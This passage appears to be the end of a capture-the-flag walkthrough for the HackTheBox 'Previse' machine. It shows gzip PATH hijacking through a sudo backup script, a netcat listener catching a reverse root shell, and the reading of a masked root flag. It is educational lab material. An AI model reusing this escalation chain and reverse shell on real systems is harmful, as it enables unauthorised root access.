    .:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
    m4lwhere@previse:~$ which gzip
    ./gzip
    
    

And now when we run the backup script as the root user we should get reverse shell as the root user on port 9002:
    
    
    [term1]
    m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh
    
    [term2]
    [ 10.10.14.68/23 ] [ /dev/pts/24 ] [~/HTB/Previse]
    → nc -lvnp 9002
    Connection from 10.129.95.185:59276
    root@previse:~# id
    id
    uid=0(root) gid=0(root) groups=0(root)
    root@previse:~# cat /root/root.txt
    cat /root/root.txt
    26XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And there you go! We managed to get the root flag.

## **Conclusion**

Here we can see the progress graph :

